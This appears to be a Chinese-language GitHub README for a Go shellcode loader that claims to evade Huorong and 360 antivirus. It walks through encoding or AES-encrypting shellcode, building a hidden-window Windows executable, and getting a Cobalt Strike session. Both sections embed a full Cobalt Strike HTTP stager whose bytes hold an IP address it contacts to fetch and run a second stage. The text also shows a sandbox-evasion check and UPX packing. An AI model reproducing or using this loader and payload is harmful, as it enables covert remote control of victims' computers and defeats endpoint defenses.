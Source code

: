 **目前两种方法都可以过火绒、360安全、360杀毒**
![image](https://user-images.githubusercontent.com/73928418/124046551-ca347980-da44-11eb-8a5f-42c695ff103e.png)
![image](https://user-images.githubusercontent.com/73928418/124046605-e89a7500-da44-11eb-9ea3-50f9fe0d9aa7.png)
## Base64
进到`Base64`目录，里面有两个文件，分别为`main.go`、`Base64.go`。首先将`Base64.go`里面的buf参数改为自己的shellcode内容
```go
const (
	buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x1d\x09\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x4e\x6f\x69\x37\x00\x69\xc5\xf5\xea\x51\xaa\x33\x38\x43\x1b\xc0\x75\x48\x28\xfd\x0f\xaa\x0b\x88\x3a\x30\x68\x21\xac\x09\xd7\x63\x7d\xa3\x7d\x17\x35\x6b\x9a\xa8\x31\xdc\xd0\xb8\xa3\x29\x34\x93\x7d\x22\xba\xab\x9d\x4b\xa0\x1d\xb0\x93\x01\x0f\x4b\x89\x2b\x30\xf0\x5f\x7c\xa5\xb9\xa0\xda\xe0\x38\x8e\xd0\xa9\x56\x5d\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x4c\x43\x29\x0d\x0a\x00\x25\x31\x24\x1c\x67\xa0\xe9\x12\x19\x27\xc8\x85\xe0\x4d\x0a\xab\xaf\xf8\x46\x3c\x3d\x2f\x64\xca\x19\x11\x3c\x52\xd0\x6e\xd3\x9d\x4a\xa9\x91\xa0\xa1\x7f\xb7\x54\xcd\xb9\xfa\xd7\x1d\x6b\xc9\x92\xbf\xc2\x1a\xab\x96\x05\xbf\x40\x8d\x85\x55\x15\xc3\xcb\xb6\xf5\xed\x52\x8b\x57\xa2\x59\xad\x42\x7f\xbe\xbd\xe1\x3d\xc7\x81\x36\xcf\xd8\x8f\x5a\xd6\x8d\x06\xcb\x12\x1e\x32\xab\xc5\x41\xa1\x1e\x2a\xab\x75\x6d\xce\x1e\xde\x2f\x37\x12\x1c\x9c\xfe\x99\x7a\x0b\xca\x7e\x8e\xaf\xbf\x19\x2c\xf1\x56\xae\xae\x06\x0a\x33\x70\x8e\x10\xc2\x58\x49\xba\x9d\xf6\x9f\xd8\x5a\x77\x75\x73\x1d\x2d\x0e\x00\xc5\x44\x9c\x82\xf6\x96\x01\x83\x63\x61\x92\xac\x78\xa6\x94\x4c\x10\x5b\xdb\x5e\xbb\xef\xc6\xaf\xc3\xab\x6b\x34\x51\x99\xc0\xe0\x15\xdc\x86\xf1\xf3\x23\x53\x6c\x15\x4b\x12\x74\xc1\xd3\x38\x0c\x00\xd5\x78\xdc\x76\xf2\x64\x4c\x31\xea\xe8\x30\x52\x40\xc8\x9f\xfa\x7f\x44\x62\x38\x72\x93\x2d\xb2\x60\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x34\x39\x2e\x32\x33\x33\x2e\x33\x34\x2e\x32\x34\x33\x00\x19\x69\xa0\x8d"
)
```
运行`Base64.go`
```go
go run Base64.go
```
![image](https://user-images.githubusercontent.com/73928418/123949478-324b7700-d9d5-11eb-9d4f-3699431c4cba.png)
第一个参数是base64编码后的shellcode，第二个参数是随机替换的字符串，这两个参数待会都会用到<br/>
在同目录下编译`main.go`
```go
go build -trimpath -ldflags="-w -s -H=windowsgui" -o main.exe main.go
```
运行`mian.exe` 分别填写上一步生成的两个参数，注意空格
![image](https://user-images.githubusercontent.com/73928418/124044542-3e205300-da40-11eb-8a9b-a66dd9ab0713.png)
Cobalstrike上线
![image](https://user-images.githubusercontent.com/73928418/124044579-54c6aa00-da40-11eb-9dc6-bdac33554ea2.png)
## AES
首先进到`AES`目录，里面有两个文件，分别为`Aes.go`、`main.go`。首先将`Aes.go`里面的buf参数改为自己的shellcode内容
```go
const (
	buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x1d\x09\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x4e\x6f\x69\x37\x00\x69\xc5\xf5\xea\x51\xaa\x33\x38\x43\x1b\xc0\x75\x48\x28\xfd\x0f\xaa\x0b\x88\x3a\x30\x68\x21\xac\x09\xd7\x63\x7d\xa3\x7d\x17\x35\x6b\x9a\xa8\x31\xdc\xd0\xb8\xa3\x29\x34\x93\x7d\x22\xba\xab\x9d\x4b\xa0\x1d\xb0\x93\x01\x0f\x4b\x89\x2b\x30\xf0\x5f\x7c\xa5\xb9\xa0\xda\xe0\x38\x8e\xd0\xa9\x56\x5d\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x4c\x43\x29\x0d\x0a\x00\x25\x31\x24\x1c\x67\xa0\xe9\x12\x19\x27\xc8\x85\xe0\x4d\x0a\xab\xaf\xf8\x46\x3c\x3d\x2f\x64\xca\x19\x11\x3c\x52\xd0\x6e\xd3\x9d\x4a\xa9\x91\xa0\xa1\x7f\xb7\x54\xcd\xb9\xfa\xd7\x1d\x6b\xc9\x92\xbf\xc2\x1a\xab\x96\x05\xbf\x40\x8d\x85\x55\x15\xc3\xcb\xb6\xf5\xed\x52\x8b\x57\xa2\x59\xad\x42\x7f\xbe\xbd\xe1\x3d\xc7\x81\x36\xcf\xd8\x8f\x5a\xd6\x8d\x06\xcb\x12\x1e\x32\xab\xc5\x41\xa1\x1e\x2a\xab\x75\x6d\xce\x1e\xde\x2f\x37\x12\x1c\x9c\xfe\x99\x7a\x0b\xca\x7e\x8e\xaf\xbf\x19\x2c\xf1\x56\xae\xae\x06\x0a\x33\x70\x8e\x10\xc2\x58\x49\xba\x9d\xf6\x9f\xd8\x5a\x77\x75\x73\x1d\x2d\x0e\x00\xc5\x44\x9c\x82\xf6\x96\x01\x83\x63\x61\x92\xac\x78\xa6\x94\x4c\x10\x5b\xdb\x5e\xbb\xef\xc6\xaf\xc3\xab\x6b\x34\x51\x99\xc0\xe0\x15\xdc\x86\xf1\xf3\x23\x53\x6c\x15\x4b\x12\x74\xc1\xd3\x38\x0c\x00\xd5\x78\xdc\x76\xf2\x64\x4c\x31\xea\xe8\x30\x52\x40\xc8\x9f\xfa\x7f\x44\x62\x38\x72\x93\x2d\xb2\x60\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x34\x39\x2e\x32\x33\x33\x2e\x33\x34\x2e\x32\x34\x33\x00\x19\x69\xa0\x8d"
)
```
运行`Aes.go`
```go
go run Aes.go
```
![image](https://user-images.githubusercontent.com/73928418/124045210-c3583780-da41-11eb-9da1-baacfb03404c.png)
第一个参数是AES加密后的shellcode，第二个参数是加密密钥，这两个参数待会都会用到<br/>
在同目录下编译`main.go`
```go
go build -trimpath -ldflags="-w -s -H=windowsgui" -o main.exe main.go
```
运行`mian.exe` 分别填写上一步生成的两个参数，注意空格
![image](https://user-images.githubusercontent.com/73928418/124045359-0fa37780-da42-11eb-81f2-36e89ba41469.png)
CobaltStrike上线
![image](https://user-images.githubusercontent.com/73928418/124045379-1d58fd00-da42-11eb-8754-ee31d52a05d0.png)
**PS：**
1. 这里采用的是根据网页状态码判断是否执行shellcode，当然这里的url也可以换成自己的VPS网址
```go
func main() {
	resp, _ := http.Get("http://www.baidu.com")
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		if len(os.Args) == 3 {
			AesBuild(os.Args[1], []byte(os.Args[2]))
		}
	}
}
```
2. 两个文件编译后大概4M，用UPX压缩一下后，可以达到1.5M
![image](https://user-images.githubusercontent.com/73928418/124045998-8a20c700-da43-11eb-924d-2eaf1b11b436.png)


